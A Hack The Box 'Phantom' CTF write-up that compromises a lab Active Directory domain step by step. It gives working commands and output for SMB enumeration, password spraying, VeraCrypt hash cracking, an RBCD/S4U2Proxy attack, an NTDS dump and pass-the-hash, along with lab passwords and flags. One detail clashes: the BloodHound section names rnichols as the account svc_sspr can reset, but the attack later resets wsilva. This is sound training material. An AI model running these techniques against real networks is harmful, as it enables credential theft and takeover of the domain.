

## Overview

The "Phantom" CTF simulates a Windows Active Directory network, mirroring typical corporate environments. This write-up details the steps taken to gain unauthorized access and ultimately compromise the domain controller. It is presented in a hybrid style, blending a typical CTF walkthrough with elements of a professional penetration testing report.

As such, not all enumeration steps that were performed are documented exhaustively.

## Tools Used

*   **nmap:** [https://nmap.org/](https://nmap.org/)
*   **NetExec:** [https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)
*   **BloodHound (legacy):** [https://github.com/SpecterOps/BloodHound-Legacy](https://github.com/SpecterOps/BloodHound-Legacy)
*   **RustHound:** [https://github.com/NH-RED-TEAM/RustHound](https://github.com/NH-RED-TEAM/RustHound)
*   **VeraCrypt:** [https://veracrypt.io/en/Home.html](https://veracrypt.io/en/Home.html)
*   **hashcat:** [https://hashcat.net/hashcat/](https://hashcat.net/hashcat/)
*   **BloodyAD:** [https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)
*   **Impacket:** [https://github.com/fortra/impacket](https://github.com/fortra/impacket)
---

## Technical Writeup

### Introduction

"Phantom" is a medium-difficulty Windows Active Directory machine on the **Hack The Box** platform. The objective was to achieve both **user** and **Root/Administrator** access. This document details the methodology and tools used to compromise the target system.

### Initial Enumeration and Reconnaissance

The initial reconnaissance phase focused on gathering comprehensive information about the target system at `10.129.234.63`.

#### Nmap Scan

An `nmap` scan was conducted to identify open ports and running services.

*   **Command**:
    ```bash
    nmap -sC -sV 10.129.234.63 -oA Outputs/nmap/initial
    ```

The scan revealed a standard Windows Domain Controller setup with several key services exposed:

*   **Port 53 (DNS):** `Simple DNS Plus`
*   **Port 88 (Kerberos):** `Microsoft Windows Kerberos`
*   **Port 135 (MSRPC):** `Microsoft Windows RPC`
*   **Port 139 (NetBIOS-SSN):** `Microsoft Windows netbios-ssn`
*   **Port 389 (LDAP):** `Microsoft Windows Active Directory LDAP (Domain: phantom.vl)`
*   **Port 445 (SMB):** `Microsoft Windows` (SMB signing enabled and required)
*   **Port 3389 (RDP):** `Microsoft Terminal Services`

Crucial domain information was immediately identified from the output: `phantom.vl` and `DC.phantom.vl`.

#### SMB Enumeration with NetExec

With SMB (port 445) confirmed as open, further enumeration of shares and users was performed using `NetExec`.

**1. Null/Guest Access Check:**

An initial attempt was made to authenticate with null and guest credentials.

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u 'a' -p '' --log Outputs/nxc/guest_scan.txt
    ```
*   **Output**:
    ```zsh
    SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False) (Null Auth:True)
    SMB         10.129.234.63   445    DC               [+] phantom.vl\a: (Guest)
    ```
The output confirmed that both guest and null bindings were successful, indicating the potential for further enumeration with guest privileges.

**2. Listing Shares:**

Leveraging guest access, available SMB shares were listed.

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u 'a' -p '' --shares --log Outputs/nxc/guest_shares.txt
    ```
*   **Output**:
    ```zsh
    SMB         10.129.234.63   445    DC               [*] Enumerated shares
    SMB         10.129.234.63   445    DC               Share           Permissions     Remark
    SMB         10.129.234.63   445    DC               -----           -----------     ------
    SMB         10.129.234.63   445    DC               ADMIN$                          Remote Admin
    SMB         10.129.234.63   445    DC               C$                              Default share
    SMB         10.129.234.63   445    DC               Departments Share
    SMB         10.129.234.63   445    DC               IPC$            READ            Remote IPC
    SMB         10.129.234.63   445    DC               NETLOGON                        Logon server share
    SMB         10.129.234.63   445    DC               Public          READ
    SMB         10.129.234.63   445    DC               SYSVOL                          Logon server share
    ```
The `Public` share with `READ` permissions was noted for further investigation.

**3. Listing Users via RID Bruteforce:**

While direct user listing was unsuccessful, a Relative ID (RID) bruteforce attack was performed to identify domain users.

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u 'a' -p '' --rid-brute --log Outputs/nxc/rid_scan.txt
    ```
*   **Output Snippet**:
    ```
    <SNIP>
    SMB         10.129.234.63   445    DC               1103: PHANTOM\svc_sspr (SidTypeUser)
    SMB         10.129.234.63   445    DC               1112: PHANTOM\rnichols (SidTypeUser)
    SMB         10.129.234.63   445    DC               1113: PHANTOM\pharrison (SidTypeUser)
    <SNIP>
    ```
This scan provided a valuable list of domain users and groups, offering insight into the domain's structure. The `svc_sspr` user (RID 1103) was of particular interest, as it often indicates a service account for Self-Service Password Reset.

**4. Exploring Shares:**

The accessible shares were spidered to list and download files.

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u 'a' -p '' -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./spider --log spider_shares.txt
    ```
*   **Output**:
    ```zsh
    SPIDER_PLUS 10.129.234.63   445    DC               [*] Total files found:    1
    SPIDER_PLUS 10.129.234.63   445    DC               [*] File unique exts:     1 (eml)
    SPIDER_PLUS 10.129.234.63   445    DC               [*] Downloads successful: 1
    ```
A single file, `tech_support_email.eml`, was discovered in the `Public` share.



The email from `alucas@phantom.vl` to `techsupport@phantom.vl` contained a PDF attachment.


This PDF revealed a default password: `Password: Ph4nt0m@5t4rt!`, a critical finding for a potential password spray attack.

### Active Exploitation

#### Password Spray

The discovered password was used in a password spraying attack against the enumerated user list.

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u ridusers -p 'Ph4nt0m@5t4rt!' --continue-on-success --log ./Outputs/nxc/spray.txt
    ```
*   **Output Snippet**:
    ```zsh
    <SNIP>
    SMB         10.129.234.63   445    DC               [-] phantom.vl\ppayne:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE
    SMB         10.129.234.63   445    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt!
    SMB         10.129.234.63   445    DC               [-] phantom.vl\ssteward:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE
    </SNIP>
    ```
A successful login was achieved for the user `ibryant`, providing valid domain credentials.

### Further Enumeration

#### Exploring Shares with New Credentials

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u ibryant -p 'Ph4nt0m@5t4rt!' --shares
    ```
*   **Output**:
    ```zsh
    SMB         10.129.234.63   445    DC               Share           Permissions     Remark
    SMB         10.129.234.63   445    DC               -----           -----------     ------
    SMB         10.129.234.63   445    DC               Departments Share READ
    ```
With `ibryant`'s credentials, `READ` access was gained to the `Departments Share`. Spidering this share revealed several files, including an interesting backup file in the `IT/Backup/` directory: `IT_BACKUP_201123.hc`. The presence of a VeraCrypt installer in the same share suggested this was an encrypted container.

#### BloodHound Analysis

`RustHound` was used to collect Active Directory data for analysis in `BloodHound`.

*   **Command**:
    ```zsh
    rusthound -u ibryant -p 'Ph4nt0m@5t4rt!' --domain phantom.vl --ldapip 10.129.234.63 --zip --output ./BloohoundIngest
    ```

**Immediate Findings:**

*   **High-Value Target (HVT):** The `svc_sspr` account was identified as a key target. It held membership in `REMOTE MANAGEMENT USERS` and possessed `ForceChangePassword` rights over the user `rnichols`, who is a member of the `ICT Security` group.
    

*   **Path to Admin:** The `ICT Security` group had a direct path to domain compromise via a Resource-Based Constrained Delegation (RBCD) misconfiguration (`AddAllowedToAct`) on the Domain Controller.
    

This analysis made compromising the `svc_sspr` account the primary objective for privilege escalation.

### Privilege Escalation

#### Cracking the VeraCrypt Container

The `IT_BACKUP_201123.hc` file was targeted. The first 512 bytes, containing the encrypted volume header, were extracted for cracking.

*   **Command**:
    ```zsh
    dd if=./IT_BACKUP_201123.hc of=./hash bs=512 count=1
    ```

Based on a hint from the CTF platform, a targeted wordlist was generated.

*   **Command**:
    ```zsh
    crunch 12 12 -t 'Phantom202%^' -o wordlist.txt
    ```

`hashcat` was used to crack the VeraCrypt volume password.

*   **Command**:
    ```zsh
    hashcat -a 0 -m 13722 hash wordlist.txt
    ```
*   **Result**:
    ```zsh
    hash:Phantom2023!
    ```

#### Mounting the Container and Finding Credentials

With the password `Phantom2023!`, the container was mounted.

*   **Command**:
    ```zsh
    veracrypt IT_BACKUP_201123.hc /mnt/ --password='Phantom2023!'
    ```

A recursive search for the string "password" within the mounted files yielded a promising result.

*   **Command**:
    ```zsh
    rg -i "password"
    ```
*   **Output Snippet**:
    ```
    run/vyatta/config/config.json
    {"local-users": {"username": {"lstanley": {"password": "gB6XTcqVP5MlP7Rc"}}}
    ```

#### Pivoting with New Credentials

The discovered password `gB6XTcqVP5MlP7Rc` was sprayed against the user list.

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u ridusers -p 'gB6XTcqVP5MlP7Rc' --continue-on-success
    ```
*   **Output Snippet**:
    ```zsh
    <SNIP>
    [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc
    <SNIP>
    ```
This provided credentials for our high-value target, `svc_sspr`.

#### Obtaining User Flag

As `svc_sspr` is a member of `REMOTE MANAGEMENT USERS`, a WinRM shell was established.

*   **Command**:
    ```zsh
    evil-winrm -i phantom.vl -u svc_sspr -p gB6XTcqVP5MlP7Rc
    ```
*   **Result**:
    ```zsh
    *Evil-WinRM* PS C:\Users\svc_sspr\Desktop> cat user.txt
    5c66a7ab1971f8793c86676296abbb8d
    ```
The user flag was successfully obtained.

### Domain Compromise

The previously identified attack path via RBCD was now executed.

**1. Take Control of `wsilva`**

The `ForceChangePassword` privilege was used to reset the password for `wsilva`.

*   **Command**:
    ```zsh
    bloodyAD -d phantom.vl -u svc_sspr -p gB6XTcqVP5MlP7Rc --host 10.129.234.63 set password wsilva Summer2025
    ```

**2. Configure RBCD**

With control over `wsilva`, who has `AddAllowedToAct` rights, the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the Domain Controller (`DC$`) was modified to include `wsilva`.

*   **Command**:
    ```zsh
    bloodyAD -d phantom.vl -u wsilva -p Summer2025 --host 10.129.234.63 add rbcd DC$ wsilva
    ```

**3. S4U2Proxy Attack**

To leverage the RBCD primitive with a user account, a series of steps were required to perform an S4U2proxy attack.

*   **Calculate NTLM Hash**: The NTLM hash of `wsilva`'s new password was calculated to force an RC4-based TGT.
    ```zsh
    NTLM=$(echo -n 'Summer2025' | iconv -f UTF-8 -t UTF-16LE | openssl dgst -md4 | awk '{print $2}')
    ```

*   **Request TGT**: A Ticket Granting Ticket for `wsilva` was requested using the hash.
    ```zsh
    getTGT.py -hashes :$NTLM phantom.vl/wsilva -dc-ip 10.129.234.63
    ```

*   **Extract Session Key**: The session key was extracted from the cached TGT.
    ```zsh
    describeTicket.py wsilva.ccache | grep 'Ticket Session Key'
    # Output: [*] Ticket Session Key            : 098710b2cb0989cb38839638c24cd154
    ```

*   **Update Password Hash**: `wsilva`'s password hash was changed to the extracted TGT session key. This is a critical step that allows the user account to be used for delegation without requiring an SPN.
    ```zsh
    changepasswd.py -newhashes :098710b2cb0989cb38839638c24cd154 phantom.vl/wsilva:Summer2025@10.129.234.63
    ```

*   **Request Service Ticket**: A service ticket was requested to impersonate the `Administrator` on the Domain Controller.
    ```zsh
    KRB5CCNAME=wsilva.ccache getST.py -u2u -impersonate Administrator -spn cifs/DC.phantom.vl phantom.vl/wsilva -k -no-pass
    ```

**4. Dump NTDS and Obtain Root Flag**

With a service ticket for the Administrator, the NTDS.dit file was dumped remotely to obtain the Administrator's NTLM hash.

*   **Command**:
    ```zsh
    KRB5CCNAME=Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache nxc smb dc.phantom.vl --use-kcache --ntds --user Administrator
    ```
*   **Output Snippet**:
    ```
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:aa2abd9db4f5984e657f834484512117:::
    ```

Using the dumped hash, a WinRM shell was established as the Administrator.

*   **Command**:
    ```zsh
    evil-winrm -i dc.phantom.vl -u administrator -H aa2abd9db4f5984e657f834484512117
    ```*   **Result**:
  ```
    *Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
    60d108263adf1769459769c8ddb6efab
  ```
The root flag was obtained, signifying full domain compromise.

### Summary of Attack Path

*   **Initial Access**: A password (`Ph4nt0m@5t4rt!`) was discovered in a PDF on a public SMB share. A password spray attack using this password granted access as the user `ibryant`.
*   **Privilege Escalation**: Credentials for the `svc_sspr` account were found inside an encrypted VeraCrypt container, which was accessible to `ibryant`. The password for the container was cracked using a targeted wordlist.
*   **Domain Admin**: The `svc_sspr` account had privileges to reset the password of `wsilva`, a member of the `ICT Security` group. This group had delegation rights (`AddAllowedToAct`) on the domain controller, which was exploited via a Resource-Based Constrained Delegation attack to impersonate the domain administrator and achieve full system compromise.
